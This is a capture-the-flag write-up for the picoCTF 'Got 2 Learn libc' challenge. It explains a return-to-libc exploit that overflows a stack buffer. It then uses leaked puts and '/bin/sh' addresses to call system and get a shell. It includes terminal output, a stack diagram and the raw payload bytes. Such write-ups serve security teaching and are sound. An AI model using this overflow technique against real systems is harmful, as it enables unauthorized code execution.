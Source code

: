 # Got 2 Learn libc

This program gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server.


## Solution
The solution to this problem is `ret2libc`. Return to libc is a technique of redirecting code execution to a well known function in libc. For this particular problem I decided to return to the `system` function to get a shell.


### How does it work?
The binary gives us a set of addresses of `libc` functions:

```
$ ./vuln
Here are some useful addresses:

puts: 0xf6a43890
fflush 0xf6a419f0
read: 0xf6abb3e0
write: 0xf6abb450
useful_string: 0x5c9ae030

Enter a string:
```

The two addresses that I decided to use from this output was `puts` function address and the `useful_string` address. The `useful_string` address points to the string `/bin/sh`.


**NOTE: I discovered that the offset between the `puts` function and the `system` function, in libc, is the same regardless of ASLR.**

I wrote a `C` program to give me the offset amount:

```
$ ./libc_addr
puts:           0xec742890
system:         0xec71d850
offset:         -151616
new_ptr:        0xec71d850
```

#### Generating the Shellcode
Using the `puts` function pointer and the useful_string address from running `./vuln` and the offset from running `./libc_addr`, we craft an input string that results in the following stack state:

```
|-----------------| <-- ebp+20
| \n\0\0\0        |
|-----------------| <-- ebp+16
| useful_str_addr |             (this is the first argument for system)
|-----------------| <-- ebp+12
| puts_addr       |             (this is the return address for the libc system function call)
|-----------------| <-- ebp+8
| system_addr     |             (this is calculated: system_addr = puts_addr + offset)
|-----------------| <-- ebp+4
|                 |
| AAAAAAAA....    |
| AAAAAAAAAAAAA   |             (There is 160 bytes between the input buffer and the return address)
|                 |
|-----------------| <-- ebp-156
```

In the diagram, we have effectively created a [call stack](https://en.wikipedia.org/wiki/Call_stack) for the libc `system` function.


#### Why use `mkfifo`
Since the `./vuln` binary is using [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization), and we need to compute the address for the libc `system` function, we need a way to send bytes to the `stdin` of `./vuln` from `./generate_shellcode.py`.

We do this by using [named pipes](https://en.wikipedia.org/wiki/Named_pipe).

We `cat` the data from a named pipe called `named_pipe`  into `./vuln`. That way the input for `./vuln` is whatever that is written to `named_pipe`. To write bytes to `named_pipe`, we write to the file in `./generate_shellcode.py`.


## Exploit
To execute this exploit we will need three terminal windows:

#### Terminal Window 1
Execute `./exploit_run_vuln.sh`. This will create the named pipe called `named_pipe`.

```
$ ./exploit_run_vuln.sh 
Here are some useful addresses:

puts: 0xea762890
fflush 0xea7609f0
read: 0xea7da3e0
write: 0xea7da450
useful_string: 0x5e2c1030

Enter a string:
```

**Note: We will use the `puts` and `useful_string` address in terminal window 3**


### Terminal Window 2
Execute `cat > named_pipe`. This will keep the stdin open for `./vuln`, which is being executed in `exploit_run_vuln.sh`.

```
$ cat > named_pipe 

```

**Note: This terminal will be used to send commands to the shell once we get ourself a shell in terminal window 1**


### Terminal Window 3
Execute `./libc_addr` to get the offset.

```
$ ./libc_addr 
puts:           0xf0d40890
system:         0xf0d1b850
offset:         -151616
new_ptr:        0xf0d1b850
```


Execute `./generate_shellcode.py` and enter the `offset` from above.

```
$ ./generate_shellcode.py 
offset: -151616
```

Now enter the `puts` address from **terminal window 1**.

```
 $ ./generate_shellcode.py                                                                               
 offset: -151616
 vuln_puts: 0xea762890
```

**Notice that the `vulc_func` pointer was calcuated and printed**

Now enter the `useful_string` address from **terminal window 1**.

```
$ ./generate_shellcode.py 
offset: -151616
vuln_puts: 0xea762890
vuln_func: 0xea73d850
useful_str: 0x5e2c1030
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP\xd8s\xea\x90(v\xea0\x10,^\n\x00\x00\x00'
```

**Notice that the shellcode is printed (for debugging) and also written to the `named_pipe`**


### Back in Terminal Window 2
Now we have shell in terminal window 1. We could send commands to it by writing to `cat > named_pipe`.

```
$ cat > named_pipe 
id
cat flag.txt
```

### The Shell in Terminal Window 1

```
Here are some useful addresses:

puts: 0xea762890
fflush 0xea7609f0
read: 0xea7da3e0
write: 0xea7da450
useful_string: 0x5e2c1030

Enter a string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPx���Ȇ�0`�W
Thanks! Exiting now...
uid=1000(picoctf) gid=1000(picoctf) groups=1000(picoctf)
picoCTF{syc4al1s_4rE_uS3fUl_6319ec91}
```

